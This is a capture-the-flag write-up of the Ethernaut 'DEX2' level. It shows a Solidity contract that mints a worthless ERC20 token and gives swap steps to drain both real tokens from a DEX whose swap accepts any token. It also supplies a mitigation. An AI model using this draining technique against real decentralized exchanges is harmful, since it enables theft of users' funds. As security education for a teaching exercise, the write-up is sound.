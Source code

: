 ```yaml
---
title: Level 23 - DEX2
slug: level-23
published: 05-22-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut23.svg
---
```


## Objectives

## Vulnerabilities

### Swap open to any ERC20 tokens

The `swap` function is available to any **ERC20** tokens. It is therefore easy to create yout own **ERC20** and some to your EOA
and some to the DEX2 contract. With this you can swap your worthless tokens for the real ones.

## Exploit

1. Write and deploy a new **ERC20** token. Given mint a small amount to the DEX2 contract and a big amount to yourself.
   You can use this hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Hacktoken is ERC20 {
    constructor(address _targetAddress) ERC20("Hack Token", "HT") {
        _mint(msg.sender, 1000);
        _mint(_targetAddress, 1);
    }
}
```

2. `approve` the amount of Hack tokens your need to `transfer` to get 100 tokens 1.

3. `swap` that amount to steal all of token 1.

4. Repeat step 2 and 3 for token 2.

## Suggested mitigation

1. Add back the `require` that was taken out from level 22.

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

## Further reading

- ERC20 token implementation <ExternalLink href={"https://solidity-by-example.org/app/erc20/"} />
- Using Data Feeds on EVM Chains by Chainlink <ExternalLink href={"https://docs.chain.link/data-feeds/using-data-feeds"} />
